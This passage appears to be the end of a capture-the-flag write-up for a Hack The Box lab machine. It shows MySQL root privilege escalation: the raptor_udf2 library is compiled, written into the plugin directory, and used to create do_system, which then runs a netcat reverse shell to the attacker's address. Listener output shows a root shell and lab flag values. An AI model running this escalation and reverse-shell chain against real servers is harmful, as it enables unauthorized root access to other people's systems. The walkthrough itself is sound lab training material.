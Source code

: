 In hacker's machine
```
gcc -g -c raptor_udf2.c
gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
In victim machine.
```
mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('id > /tmp/out; chown svc.svc /tmp/out');
myaql> select do_system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 1234 >/tmp/f');
```
Listen with `netcat`  then you will get `root` shell.
```
┌──(egovridc㉿egovridc)-[~/…/htb/noter/app/www2]
└─$ nc -nlvp 1234          
listening on [any] 1234 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.160] 51034
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
aa818f33d1e46c86a0f7c47e4fec6ae7
# cd /
# cd home
# ls
svc
# cd svc
# cat user.txt
4f8107910aaa90612a2828900d0f75ad
```
The End.
```
Mungu nisaidie
```
